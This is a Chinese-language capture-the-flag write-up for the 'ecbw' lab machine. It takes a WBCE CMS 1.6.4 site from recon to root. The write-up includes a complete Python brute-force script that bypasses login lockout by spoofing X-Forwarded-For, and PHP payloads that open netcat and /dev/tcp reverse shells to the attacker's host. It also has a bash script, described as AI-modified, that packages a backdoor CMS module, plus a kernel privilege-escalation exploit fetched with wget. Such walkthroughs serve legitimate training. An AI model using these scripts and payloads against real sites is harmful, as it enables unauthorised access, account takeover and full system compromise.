








| 作者     | 靶机名称 | 难度                     | 平台    |
| -------- | -------- | ------------------------ | ------- |
| ll104567 | ecbw     | medium(靶机作者认为baby) | mazesec |

这道题的web是一个cms网站，我觉得挺有难度的，我就把他放到了medium。

## 信息收集

```sh
nmap 192.168.56.116
# 扫出 80 
nmap 192.168.56.116 -p80 -sC -sV
#80/tcp open  http    Apache httpd 2.4.62 ((Debian))
#|_http-title: 111 - Enter your website title
#|_http-server-header: Apache/2.4.62 (Debian)
```

dirsearch 进行网站的目录枚举：

```sh
root@kali:~# dirsearch -u http://192.168.56.116/
[22:36:59] 301 -  318B  - /account  ->  http://192.168.56.116/account/
[22:36:59] 302 -    0B  - /account/login.php  ->  http://ecbw.dsz/index.php
[22:36:59] 301 -    0B  - /account/  ->  login.php
[22:37:00] 301 -  316B  - /admin  ->  http://192.168.56.116/admin/
[22:37:01] 302 -    0B  - /admin/  ->  http://ecbw.dsz/admin/start/index.php
[22:37:01] 302 -    0B  - /admin/index.php  ->  http://ecbw.dsz/admin/start/index.php
[22:37:01] 301 -  322B  - /admin/login  ->  http://192.168.56.116/admin/login/
[22:37:14] 200 -  136B  - /CHANGELOG.md
[22:37:15] 200 -    0B  - /config.php
[22:37:22] 200 -   34KB - /favicon.ico
[22:37:26] 301 -  318B  - /include  ->  http://192.168.56.116/include/
[22:37:26] 301 -    0B  - /include/  ->  ../index.php
[22:37:27] 200 -    1KB - /INSTALL.md
[22:37:29] 301 -  320B  - /languages  ->  http://192.168.56.116/languages/
[22:37:30] 200 -   15KB - /LICENSE.md
[22:37:32] 301 -  316B  - /media  ->  http://192.168.56.116/media/
[22:37:32] 200 -  457B  - /media/
[22:37:34] 301 -  318B  - /modules  ->  http://192.168.56.116/modules/
[22:37:34] 301 -    0B  - /modules/  ->  ../index.php
[22:37:37] 301 -  316B  - /pages  ->  http://192.168.56.116/pages/
[22:37:37] 301 -    0B  - /pages/  ->  ../index.php
[22:37:43] 200 -    2KB - /README.md
[22:37:45] 301 -  317B  - /search  ->  http://192.168.56.116/search/

[22:37:52] 301 -  320B  - /templates  ->  http://192.168.56.116/templates/
[22:37:52] 301 -    0B  - /temp/  ->  ../index.php
[22:37:52] 301 -  315B  - /temp  ->  http://192.168.56.116/temp/
[22:37:52] 301 -    0B  - /templates/  ->  ../index.php
[22:37:56] 301 -  314B  - /var  ->  http://192.168.56.116/var/
[22:37:56] 301 -    0B  - /var/  ->  ../index.php
[22:37:56] 200 -  467B  - /var/logs/
```

`[22:36:59] 302 -    0B  - /account/login.php  ->  http://ecbw.dsz/index.php` : 这里跳转到了域名，这里需要修改主机的hosts文件，`windows` 修改 : `C:\Windows\System32\drivers\etc\hosts`文件，`linux` 修改 : `/etc/hosts` 文件。

```sh
# 我的IP 为 192.168.56.116
192.168.56.116 ecbw.dsz
```

```sh
curl -i http://ecbw.dsz/admin -L
# 会跳转到 /admin/login
```

查看README.md:



发现该网站是一个wbce cms网站，还发现了一个关键信息：

```
## Minimum requirements
  - about 25 MB webspace
  - PHP 8.1 - PHP 8.4.x (PHP >= 8.4.x requires WBCE 1.6.4)
  - mySQL or MariaDB database
  - GD Library / Exif / Imagemagick (if you use any module with image processing)
  - mod_rewrite (if you use ShortURL)
```

`- PHP 8.1 - PHP 8.4.x (PHP >= 8.4.x requires WBCE 1.6.4)`，说明 该网站的版本 可能小于等于 1.6.4。

## 漏洞分析/利用

搜索 wbce cms 网站 1.6.4 版本以下 的 公开漏洞：



这是在 `wbce` 的官方漏洞公告。

分析网站：

```
111

welcome to Maze

--------------------------------------

From scdyh
```

提取用户名：`scdyh`

```

112

generate_by_username
```

按用户名生成字典。

```sh
root@kali:/tmp/123# bash generate_by_username.sh scdyh > pass.txt
```

在/admin/login进行目录爆破，爆破几次会禁止访问，查看官网漏洞报告发现：`Brute-force protection bypass using X-Forwarded-For header` 可以绕过爆破限制。

```python
import requests

# ==========================
#  CONFIGURATION
# ==========================

TARGET_URL = "http://ecbw.dsz/admin/login/"
USERNAME = "scdyh"

# Extracted from intercepted login request
USERNAME_FIELDNAME = "username_38C77E9A78FD" 
PASSWORD_FIELDNAME = "password_38C77E9A78FD" # 这两个都要更改为 你实际请求的 键名
USERNAME_META_FIELD = "username_fieldname"
PASSWORD_META_FIELD = "password_fieldname"

WORDLIST = "pass.txt"

ERROR_STRING = "Loginname or password incorrect"
BLOCK_STRING = "Excessive Invalid Logins"

MAX_ATTEMPTS_PER_IP = 4
SPOOF_IP_BASE = "10.0.0."

# Optional Burp Suite proxy
USE_BURP = False
PROXIES = {
    "http": "http://127.0.0.1:8080",
    "https": "http://127.0.0.1:8080",
}

session = requests.Session()
if USE_BURP:
    session.proxies.update(PROXIES)
    session.verify = False


# ==========================
#  LOGIN REQUEST
# ==========================

def try_login(ip, password):
    """Send one login attempt with spoofed X-Forwarded-For."""
    headers = {
        "X-Forwarded-For": ip,
        "User-Agent": "WBCE-Bruteforce-POC",
    }

    data = {
        USERNAME_META_FIELD: USERNAME_FIELDNAME,
        PASSWORD_META_FIELD: PASSWORD_FIELDNAME,
        USERNAME_FIELDNAME: USERNAME,
        PASSWORD_FIELDNAME: password,
        "url": "",
        "submit": "Login",
    }

    resp = session.post(TARGET_URL, headers=headers, data=data, allow_redirects=True)
    text = resp.text

    failed = ERROR_STRING in text
    blocked = BLOCK_STRING in text
    success = not failed and not blocked

    return success, failed, blocked, resp


# ==========================
#  MAIN ROUTINE
# ==========================

def main():
    print("[*] Loading wordlist...")

    with open(WORDLIST, "r", encoding="utf-8") as f:
        passwords = [p.strip() for p in f if p.strip()]

    print(f"[*] Loaded {len(passwords)} passwords.\n")

    current_ip_counter = 1
    attempts_with_ip = 0

    for attempt_no, password in enumerate(passwords, start=1):
        ip = f"{SPOOF_IP_BASE}{current_ip_counter}"
        success, failed, blocked, resp = try_login(ip, password)

        print(
            f"Attempt {attempt_no:03d} | IP={ip} | pass='{password}' "
            f"| failed={failed} blocked={blocked}"
        )

        if success:
            print("\n[+] SUCCESSFUL LOGIN!")
            print(f"    Username: {USERNAME}")
            print(f"    Password: {password}")
            print(f"    IP used : {ip}")
            return

        attempts_with_ip += 1

        # Switch spoofed IP after lockout threshold
        if attempts_with_ip >= MAX_ATTEMPTS_PER_IP:
            print(f"[*] Switching IP after {MAX_ATTEMPTS_PER_IP} attempts.\n")
            current_ip_counter += 1
            attempts_with_ip = 0

    print("\n[-] Password not found in wordlist.")


if __name__ == "__main__":
    main()
```



爆破的凭据为：`scdyh:scdyh2026`



成功登录网站，网站的版本是:`1.6.4`。

`https://www.exploit-db.com/search?q=wbce`搜索到：



其实`1.6.3`的payload也能用，只是需要修改一下上传的install.php文件。

先学习新的方法：

```
https://www.exploit-db.com/exploits/52489
```

跟着这个网站的描述进行操作，最后效果是这样的：



紧接着修改exp：

```php
echo "<h3>系统信息 PoC</h3>";
echo "<pre>";

phpinfo();

echo "</pre>";
```



禁用了这些函数，但是没有禁用`exec()`。

## 初始入侵获取立足点

修改exp为：

```
echo "<h3>系统信息 PoC</h3>";
echo "<pre>";

exec("busybox nc 192.168.56.101 39666 -e /bin/bash");

echo "</pre>";
```

```sh
# kali
nc -lvnp 39666
```

访问`http://192.168.56.116/`触发反弹shell：

```sh
root@kali:~/tools# nc -lvnp 39666                  
listening on [any] 39666 ...
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.116] 54878
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

优化反向shell。

## 系统内部信息收集

```sh
# kali
root@kali:~/tools# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
# 靶机
www-data@ecbw:/var/www/ecbw.dsz$ wget http://192.168.56.101:8000/lin2026.sh
--2026-05-21 04:11:54--  http://192.168.56.101:8000/lin2026.sh
Connecting to 192.168.56.101:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1046034 (1022K) [application/x-sh]
Saving to: 'lin2026.sh'

lin2026.sh          100%[===================>]   1022K  --.-KB/s    in 0.02s   

2026-05-21 04:11:54 (42.6 MB/s) - 'lin2026.sh' saved [1046034/1046034]
www-data@ecbw:/var/www/ecbw.dsz$ bash lin2026.sh

╔══════════╣ Checking for Copy Fail (CVE-2026-31431) (T1068)
╚ https://copy.fail/
╚ https://www.cve.org/CVERecord?id=CVE-2026-31431
VULNERABLE: non-destructive AF_ALG/splice page-cache write triggered
```

存在copyfail提权漏洞。

## 权限提升

```sh
# kali
root@kali:~/tools# cd copy-fail-c
root@kali:~/tools/copy-fail-c# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
# 目标靶机
www-data@ecbw:/var/www/ecbw.dsz$ wget http://192.168.56.101:8000/exploit
--2026-05-21 04:43:50--  http://192.168.56.101:8000/exploit
Connecting to 192.168.56.101:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 811048 (792K) [application/octet-stream]
Saving to: 'exploit'

exploit                           0%[                                                        ]       0  --.-KB/s             exploit                         100%[=======================================================>] 792.04K  --.-KB/s    in 0.01s   

2026-05-21 04:43:50 (63.9 MB/s) - 'exploit' saved [811048/811048]

www-data@ecbw:/var/www/ecbw.dsz$ chmod +x exploit && ./exploit
[+] target:    /usr/bin/sudo
[+] payload:   1456 bytes (364 iterations)
[+] page cache mutated; exec'ing target
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cat /root/root.txt
flag{root-cf276b11e1e808fac62d5763674b4918}
# cat /home/fly/user.txt
flag{user-a74ed22129e22096e8cae79febdb8376}
```

提权这个算非预期解，作者说:这个是库存靶机，出这个靶机的时候，copyfail漏洞还没有出来了。

## 攻击链总结

1. 信息收集：端口扫描发现 80 端口，目录枚举 ，在README.md发现该网站为`wbce cms`网站，版本可能在1.6.4版本及其一下。
2. 漏洞分析/利用：通过网站提示信息制作密码字典，并通过`Brute-force protection bypass using X-Forwarded-For header`脚本成功爆破出密码，凭证：`scdyh:scdyh2026`，这就是管理员，利用`WBCE CMS 1.6.4 - Remote Code Execution`执行php文件，获取立足点。
   学习到:`github 的 Security and quality有提交漏洞的日志，可以用于查看公开的漏洞`；`https://www.exploit-db.com/ 可能有公开漏洞的exp`；思路上：遇到cms网站，先查版本信息，看是否有可以利用的公开漏洞。
3. 系统信息收集：通过`linpeas.sh`进行系统信息收集，发现存在copyfail内核漏洞。
4. 权限提升：通过copyfail的exp进行提权。

## 额外

第二种方法：

这里对于[WBCE CMS 1.6.3 - Authenticated Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/52132) 做了部分修改，是AI写的：

```sh
#!/bin/bash

# Exploit Title: WBCE CMS <= v1.6.3 Authenticated Remote Code Execution (RCE)

if [[ $# -ne 2 ]]; then
	echo "[*] Usage: $0 <lhost> <lport>"
	echo "[*] Example: $0 192.168.56.101 39666"
	exit 1
fi

if [ -z "$(which nc)" ]; then
	echo "[!] Netcat is not installed."
	exit 1 
fi

ip=$1
port=$2

rm -rf shellModule.zip
rm -rf shellModule
mkdir shellModule

echo [*] Crafting Payload

cat <<EOF > shellModule/info.php
<?php
\$module_directory = 'modshell';
\$module_name = 'Reverse Shell';
\$module_function = 'page';
\$module_version = '1.3.3.7';
\$module_platform = '2.10.x';
\$module_author = 'Swammers8';
\$module_license = 'GNU General Public License';
\$module_description = 'This module is a backdoor';
?>
EOF

cat <<EOF > shellModule/install.php
<?php
// 增加执行时间限制
set_time_limit(60);

\$ip = '$ip';
\$port = $port;

// 方法1: 使用 socket 直接发送
function send_with_socket(\$ip, \$port, \$data) {
    \$sock = socket_create(AF_INET, SOCK_STREAM, SOL_TCP);
    if (\$sock) {
        socket_connect(\$sock, \$ip, \$port);
        socket_write(\$sock, \$data, strlen(\$data));
        socket_close(\$sock);
        return true;
    }
    return false;
}

// 执行命令获取输出
\$cmd = 'bash -c "bash -i >& /dev/tcp/192.168.56.101/39667 0>&1"';
\$output = "";

// 尝试多种方法执行命令
if (function_exists('shell_exec')) {
    \$output = shell_exec(\$cmd . ' 2>&1');
} elseif (function_exists('exec')) {
    exec(\$cmd . ' 2>&1', \$output_array);
    \$output = implode("\n", \$output_array);
} elseif (function_exists('system')) {
    ob_start();
    system(\$cmd . ' 2>&1');
    \$output = ob_get_clean();
} elseif (function_exists('passthru')) {
    ob_start();
    passthru(\$cmd . ' 2>&1');
    \$output = ob_get_clean();
} else {
    \$output = "No command execution function available";
}

if (\$output === null || \$output === "") {
    \$output = "Command executed but no output";
}

// 准备要发送的数据
\$data = "========================================\n";
\$data .= "Command: \$cmd\n";
\$data .= "========================================\n";
\$data .= \$output;
\$data .= "\n========================================\n";
\$data .= "Hostname: " . gethostname() . "\n";
\$data .= "Timestamp: " . date('Y-m-d H:i:s') . "\n";
\$data .= "PHP User: " . (function_exists('get_current_user') ? get_current_user() : 'Unknown') . "\n";
\$data .= "========================================\n";

// 延迟1秒确保监听器准备好
sleep(1);

// 方法1: 尝试 fsockopen
\$sock = @fsockopen(\$ip, \$port, \$errno, \$errstr, 5);
if (\$sock) {
    fwrite(\$sock, \$data);
    fflush(\$sock);
    fclose(\$sock);
} else {
    // 方法2: 尝试 socket 扩展
    send_with_socket(\$ip, \$port, \$data);
}

// 记录到日志以便调试
error_log("Reverse shell executed for \$ip:\$port");
?>
EOF

echo [*] Zipping to shellModule.zip
zip -r shellModule.zip shellModule
rm -rf shellModule

echo [*] ========================================
echo [*] Starting listener... 
echo [*] Install the module now!
echo [*] ========================================

# 启动 netcat 监听，保持连接打开
nc -lvnp $port

echo
echo "[*] Done!"
```

运行`exploit.sh`:

```sh
root@kali:/tmp/123# bash exploit.sh 192.168.56.101 39667         
[*] Crafting Payload
[*] Zipping to shellModule.zip
  adding: shellModule/ (stored 0%)
  adding: shellModule/install.php (deflated 55%)
  adding: shellModule/info.php (deflated 40%)
[*] ========================================
[*] Starting listener...
[*] Install the module now!
[*] ========================================
listening on [any] 39667 ...
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.117] 57438
```

将`shellMoudle.zip`上传到`Add-ons -> Moudle`:



```sh
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.117] 57438
bash: cannot set terminal process group (471): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ecbw:/var/www/ecbw.dsz/admin/modules$ id            
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

再说说`www-data -> root`，作者的预期解：

```sh
www-data@ecbw:/var/www/ecbw.dsz$ cat config.php
<?php

define('DB_TYPE', 'mysqli');
define('DB_HOST', 'localhost');
define('DB_NAME', 'wbce_db');
define('DB_USERNAME', 'wbce_user');
define('DB_PASSWORD', 'wbce_user'); # 这竟然是 fly 的 密码
define('DB_CHARSET', 'utf8');
define('TABLE_PREFIX', 'wbce_');

define('WB_URL', 'http://ecbw.dsz'); // no leading/trailing slash or backslash.
define('ADMIN_DIRECTORY', 'admin'); // no leading/trailing slash or backslash. A simple directory name only.
www-data@ecbw:/var/www/ecbw.dsz$ su fly
Password: 
fly@ecbw:/var/www/ecbw.dsz$ 
# 这是从 www-data -> fly
# fly -> root
# 直接使用 scdyh2026 登录即可
fly@ecbw:~$ su root 
Password: 
root@ecbw:/home/fly# cd
root@ecbw:~# 
```

* 密码复用
